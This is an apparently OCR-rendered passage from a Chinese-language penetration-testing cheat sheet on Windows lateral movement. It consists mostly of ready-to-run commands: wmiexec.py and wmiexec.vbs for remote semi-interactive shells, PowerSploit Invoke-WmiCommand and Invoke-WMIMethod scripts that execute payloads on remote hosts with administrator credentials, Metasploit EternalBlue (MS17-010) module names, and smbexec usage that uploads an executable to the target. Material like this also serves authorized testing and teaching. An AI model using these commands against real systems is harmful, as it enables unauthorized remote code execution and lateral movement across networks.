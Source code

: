 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmiexec.py administrator:password@IP<br>``` |

### [](#wmiexecvbs)wmiexec.vbs

半交互式 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>cscript.exe //nologo wmiexec.vbs /shell IP administrator password<br>``` |

执行单条命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>cscript.exe wmiexec.vbs /cmd IP administrator password "ipconfig"<br>``` |

对于运行时间较长的命令，例如 `ping`、`systeminfo`，需要加入 `-wait 5000` 命令或者更长等待时间。在运行 `nc` 等不需要输出单需要一直等待运行的进程时，需要使用 `-persist` 参数。

### [](#invoke-wmicommand)Invoke-WmiCommand

powersploit 工具包中

将 `Invoke-Wmicommand.ps1` 导入系统

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName IP<br><br>$Remore.PayloadOutput<br>``` |

### [](#invoke-wmimethod)Invoke-WMIMethod

利用 `powershell` 自带的 `Invoke-WMIMethod` ，非交互，无回显。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -Credential $Cred -ComputerName IP<br>``` |

## [](#%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E)永恒之蓝漏洞

-   auxiliary/scanner/smb/smb\_ms17\_010
-   exploit/windows/smb/ms17\_010\_eternalblue

## [](#smbexec)smbexec

### [](#c-%E7%89%88%E6%9C%AC-smbexec)C++ 版本 smbexec

将 `execserver.exe` 上传到到目标系统的 `C:\Windows\` 目录下，解除 `UAC` 对命令的限制。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>net use \\IP "password" /user:pentest\administrator<br>test.exe IP administrator password whoami c$<br>``` |

